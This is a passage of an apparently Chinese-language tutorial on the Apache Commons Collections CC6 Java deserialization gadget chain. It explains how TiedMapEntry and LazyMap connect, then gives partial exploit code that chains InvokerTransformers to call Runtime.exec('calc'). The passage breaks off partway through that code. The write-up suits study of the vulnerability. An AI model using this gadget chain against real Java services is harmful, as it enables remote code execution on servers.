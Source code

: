 然后我们在 TiedMapEntry 中找到了 hashCode 方法，然后调用 getValue() 方法，然后再通过 map 调用 LazyMap 中的 get 方法

```bash
public int hashCode() {
        Object value = getValue();
        return (getKey() == null ? 0 : getKey().hashCode()) ^
               (value == null ? 0 : value.hashCode()); 
    }
```

```bash
private final Map map;
public TiedMapEntry(Map map, Object key) {
        super();
        this.map = map;
        this.key = key;
    }
public Object getValue() {
        return map.get(key);
}
```

所以这里我们将 TiedMapEntry 实例化以后，传入对应的 map 值为实例化以后的 LazyMap，然后再通过 Hashmap 中的 put 方法将 TiedMapEntry 传入。

### EXP 问题：

```bash
package exp;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;


import java.io.*;


import java.util.HashMap;
import java.util.Map;

public class CC6Test {
    public static void main(String[] args) throws Exception{


        Transformer[] Transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(Transformers);


        HashMap<Object,Object> map = new HashMap<>();
        Map<Object,Object> Lazymap = LazyMap.decorate(map,chainedTransformer);



        TiedMapEntry tiedMapEntry = new TiedMapEntry(Lazymap,"aaa");

        HashMap<Object,Object> map2 = new HashMap<>();
```